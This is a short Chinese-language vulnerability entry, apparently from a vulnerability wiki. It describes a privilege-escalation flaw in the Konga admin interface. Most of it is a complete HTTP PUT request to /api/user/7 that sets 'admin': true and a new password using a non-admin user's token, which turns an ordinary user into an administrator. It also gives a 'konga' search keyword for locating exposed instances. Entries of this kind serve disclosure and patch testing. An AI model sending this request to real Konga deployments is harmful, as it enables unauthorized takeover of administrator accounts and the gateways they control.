

# Konga 普通用户越权获取管理员权限漏洞

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

<a-checkbox checked>Konga</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"konga"</a-checkbox></br>

## 漏洞复现

登录页面





创建非管理员用户后登录并获取token


发送请求包, 将token修改为刚刚获取的

```plain
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```


成功转为管理员用户

